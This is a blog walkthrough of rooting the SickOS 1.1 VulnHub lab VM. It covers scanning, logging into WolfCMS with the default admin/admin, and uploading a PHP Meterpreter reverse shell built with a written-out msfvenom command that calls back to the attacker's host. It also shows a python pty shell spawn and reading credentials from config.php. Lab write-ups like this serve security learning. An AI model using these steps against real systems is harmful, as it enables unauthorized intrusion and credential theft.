 ```yaml
---
layout:		post
title:  	"SickOS 1.1"
date: 		2018-03-06 16:00:00 +0800
summary:	Today we are going to get root on SickOS 1.1, a VulnHub VM.
categories:	vulnhub sickos
---
```


Hey everyone, today we have a VulnHub VM, (https://www.vulnhub.com/entry/sickos-11,132/)sickOS that we are going to get root on. 

The description given is "This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them."

Being similar to an OSCP is nice to know! Let's get started. 

![Login](/assets/sickos/login.PNG){: .center-image }

Here is what you see when you power on the sickOS VM. So as always, let's move over to our Kali machine and nmap the network and find sickOS's IP.

We've got ports  22 and 3128 open and port 8080 closed. Let's launch firefox and see what happens if we go to the IP address.

Connection timed out, that's no good. Let's try to proxy using the squid-http open port and refresh.

![blehhh](/assets/sickos/blehhh.PNG){: .center-image }

Well that's seemed to work. So squid is running on this server. 

Okay, let's use Nikto to find out if we've got any vulnerabilities we can use!

![nikto](/assets/sickos/nikto.PNG){: .center-image }

Okay! There are a few exploits we could use, shellshock looks especially interesting! But first I'm going to look at the robots.txt

![wolfcms](/assets/sickos/wolfcms.PNG){: .center-image }

There's mention of a "wolfcms", let's see if that comes up for us.

![wolfcms landing](/assets/sickos/wolfcms_landing.PNG){: .center-image }

WolfCMS is a Content Management System, neat. With Content Management must come an administrator login right? Let's head over to DuckDuckGo and find out how to log in to WolfCMS.

Appending /?admin/ works, now we could try find a way to crack this login <u><i>OR</i></u> we could try the handy "admin" "password" or "admin" "admin" before we get ahead of ourselves.

![wolfcms admin](/assets/sickos/wolfcmsadmin.PNG){: .center-image }

Yep, admin admin strikes again. Thanks lazy admins! Let's go to the files tab and hope we can upload some files.

![wolfcms files](/assets/sickos/wolfcms_files.PNG){: .center-image }

It seems like it's letting us do it, let's upload a php script to try get a reverse shell going. First, we need to make the php script with MSFvenom

Using:

{% highlight ruby %}
msfvenom -p php/meterpreter/reverse_tcp lhost=**HOST IP ADDRESS** lport=**whichever port you want** -f raw
{% endhighlight %}

we can make a php script to open a reverse tcp to get us in to open a reverse shell.

Now that we've got the php file uploaded, we need to make a session on our Kali box so when we activate it on the web server, it handshakes and we can make our reverse shell. 

We are making a session in Metasploit, using the exploit/multi/handler and using the php/meterpreter/reverse_tcp (as before when making the script) specifying the same host and port we specified in the php script! 

![msf metasploit](/assets/sickos/msf_metasploit.PNG){: .center-image }

Now we go to the web server where our php script is located and run it! 

![metasploit session](/assets/sickos/metasploit_session.PNG){: .center-image }

The session has started!! Let's use a nifty python trick and get into bash on the web server.

{% highlight ruby %}
echo "import pty; pty.spawn('/bin/bash')" > /tmp/aaaa.py
python /tmp/aaaa.py
{% endhighlight %}


![bash shell](/assets/sickos/bash_shell.PNG){: .center-image }

We have bash! much easier to work with. 

![file list](/assets/sickos/filelist.PNG){: .center-image }

Our user is www-data and I've now changed directory and listed the files, config.php looks like the most interesting file at the moment so I'll cat into that and have a read

![sql username pass](/assets/sickos/sqlusernamepass.PNG){: .center-image }

And straight away we have a password, let's try and get into the account!

![loggedin sickos](/assets/sickos/loggedinsickos.PNG){: .center-image }

Okay, now finally let's get root and show the flag!

![root](/assets/sickos/root.PNG){: .center-image }

Thanks guys, three machines down! I'll try get another post out within a week or so!


